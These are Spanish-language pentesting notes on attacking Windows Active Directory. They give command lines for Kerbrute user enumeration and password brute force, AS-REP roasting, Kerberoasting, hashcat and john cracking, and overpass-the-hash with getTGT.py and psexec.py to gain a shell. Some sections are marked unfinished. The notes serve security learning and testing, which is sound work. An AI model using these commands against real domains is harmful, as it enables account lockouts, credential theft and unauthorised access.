 ```yaml
---
title: Pentesting Windows AD
---
```


## Impacket, Bloudhound y Rubeus

**Impacket** es una colección de herramientas realizada en Python que trabaja con protocolos de red a bajo nivel. Algunos protocolos son SMB1-3 y MSRPC.

[Github Impacket](https://github.com/SecureAuthCorp/impacket) 

[Explicación de sus distintas herramientas](secureauth.com/labs/open-source-tools/impacket)

**Bloudhound** es una herramienta que utiliza gráficos para revelar las relaciones ocultas (relaciones de confianza, grupos anidados, etc..) dentro de un Active Directory. Se puede usar con **neo4j** que es un software orientado a grafos.

[Github Bloodhound](https://github.com/BloodHoundAD/BloodHound)

**Rubeus** es una herramienta que permite ejecutar diversos tipos de ataques contra el protocolo Kerberos. Herramienta de post-explotación. Pertenece a Ghostpack.

[Github Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

## Enumeration SMB (445) y RDP(139)

Con la herramienta **enum4linux.pl** se puede enumerar la información de los servicios SMB(445) y RDP(139).

`sudo ./enum4linux -a [IP]`

[Github enum4linux](https://github.com/CiscoCXSecurity/enum4linux)

## Kerbrute

**Kerbrute** es una herramienta de bruteforce y <span style="color:orange">enumeración de cuentas AD</span> a través de la Pre-Authentication Kerberos.

Enumeración de usuarios:

`kerbrute userenum -d [domain] --dc [dc_domain] [list_user.txt]`

Bruteforce con cuenta de usuario AD:

`kerbrute bruteforce -d [domain] --dc [dc_domain] [pass.txt] [user]`

Ventajas:

- Solo se necesita visibilidad del KDC (Key Distribution Center).
- Los errores de pre-authentication de Kerberos se registran como 4771 (Kerberos pre-authentication failure) y no como 4625 (logon failure).
- Kerberos indica si un usuario es correcto o no.
- Se pueden descubrir cuentas de usuarios que no requieran pre-authentication (ASREPRoast).

<span style="color:red">Se pueden bloquear cuentas de dominio si se hace fuerza bruta</span>

## AS-REP Roasting

Este ataque se basa en encontrar usuarios que no requieran pre-authentication de Kerberos. 

El funcionamiento del **AS-REP Roasting** permite que cualquiera pueda enviar una petición AS-REQ en nombre de esos usuarios, ya que no necesita cifrar el **timestamp** con las credenciales del usuario, y esto devolverá una petición AS-REP correctamente.

La respuesta AS-REP contiene un pedazo del mensaje cifrado con la clave del usuario. Con este mensaje, se puede tratar de crackear offline para obtener las credenciales de dicho usuario.

En caso de que se disponga de una cuenta de usuario del dominio, se podrían obtener los usuarios que no necesiten pre-authentication Kerberos con una consulta LDAP:

`(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))`

Con la herramienta **GetNPUsers.py** de Impacket podemos recolectar mensajes AS-REP sin pre-authentication desde una lista de usuarios:

`python GetNPUsers.py [domain]/ -usersfile [user.txt] -format hashcat -outfile hashes.asreproast`
`python GetNPUsers.py [domain]/[user] -no-pass`

Usando **Rubeus.exe**:

`Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`


## Crackeando peticiones AS-REP (Hashcat o John)

Con Hashcat:

`hashcat -m 18200 --force -a 0 hashes.asreproast [pass.txt]`

Con John:

`john --wordlist=password_kerb.txt hashes.asreproast`


## Kerberoasting !REVISAR¡

<span style="color:red">Necesario credenciales de un usuario del dominio sin privilegios</span>

Recolectar TGS's para aquellos servicios que corren en el contexto de un usuario del dominio. Ya que los TGS's incluyen un pedazo de datos cifrado con una clave derivada de la contraseña de dichos usuarios, y después crackearlas offline. 

Para obtener las cuentas de usuario que tien servicios asociados, se puede usar el filtro LDAP:

`(&(samAccountType=805306368)(servicePrincipalName=*))`

Con la herramienta **GetUserSPN.py** (impacket):

`python GetUserSPN.py [domain]/[users]:[password] --outputfile hashes.kerberoast`

Con este comando, obtenemos un fichero con un TGS por linea que se puede utilizar en Hascat o John para obtener las credenciales de los usuarios.

Con la herramienta **Rubeus.exe** (desde el Windows del usuario del dominio comprometido):

`Rubeus.exe Kerberoast /outfile:hashes.Kerberoast`


## Crackeando los TGS's

Con **Hashcat**:

`hashcat -m 13100 --force -a 0 hashes.Kerberoast [pass.txt]`

Con **John**:

`john --format=krb5tgs --wordlist=[pass.txt] hashes.Kerberoast`

## Pass The Hash ¡Falta!

## Overpass The Hash/Pass The Key (PTK)

Se utiliza el hash NTLM de un usuario para solicitar tickets de Kerberos, como alternativa al típico Pass The Hash sobre el protocolo NTLM.**Esta tecnica es útil en redes donde el protocolo NTLM se encuentra deshabilitado y solamente Kerberos permite este protocolo como autenticación.**

<span style="color:red">Necesario el hash NTLM o contraseña del usuario</span>. Con estas credenciales, se puede solicitar un TGT (Ticket Granting Tickets) y utilizar después este para acceder a culaquier servicio del dominio en nombre del usuario.

Con **getTGT.py** (impacket):

`python getTGT.py [domain]/[user] -hashes [hash NTLM]`

Obteniendo el TGT, podemos usar otras herramientas como **psexec.py** para acceder a los sistemas Windows que se pueda con el TGT. Importamos el TGT en el sistema:

`export KRB5CCNAME=/root/impacket-examples/[user.ccache]`

`python psexec.py [domain]/[user]@[equipo domain] -k -no-pass`

Se obtendra una shell. Este ticket se puede utilizar con otros scripts de Impacket con el parametro -k u otras herramientas ya que este ticket TT se guarda en un fichero .ccache (formato utilizado en Linux para almacenar tickets)

<span style="color:green">Troubleshooting: KDC can't found the name: Se resuelve usando el nombre del dominio en vez de la IP [equipo domain] mejor el nombre</span>



